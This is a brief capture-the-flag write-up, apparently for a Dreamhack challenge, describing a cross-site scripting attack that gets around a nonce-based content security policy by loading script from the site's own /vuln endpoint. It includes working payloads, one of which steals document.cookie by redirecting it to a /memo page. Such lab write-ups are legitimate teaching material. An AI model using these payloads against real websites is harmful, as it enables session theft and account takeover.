




# solution

First, this challenge is literally XSS. But we need to bypass this csp filter:
<br>
Hmm, so we need to xss in dreamhack'server. I try this payload on **/vuln?param**

```
<script%20src=%27/vuln?param=alert(1)%27)></script>
```

<br>
hmm, why i choose this payload cause you cannot use normal payload like

```
<script>alert(1)</script>
```

cause we don't know the value of **nonce** and the attribute **script self** mean that the server will execute code inside script. Oke, we find the vulnerability site.
<br>
So the idea is we need to put a malicious payload into /flag url then somehow point to /memo cause we need to the value of flag (document.cookie). Remember to encode "+" to %2B.

```
<script src="/vuln?param=document.location='/memo?memo='%2Bdocument.cookie"></script>
```

and get the flag.
<br>
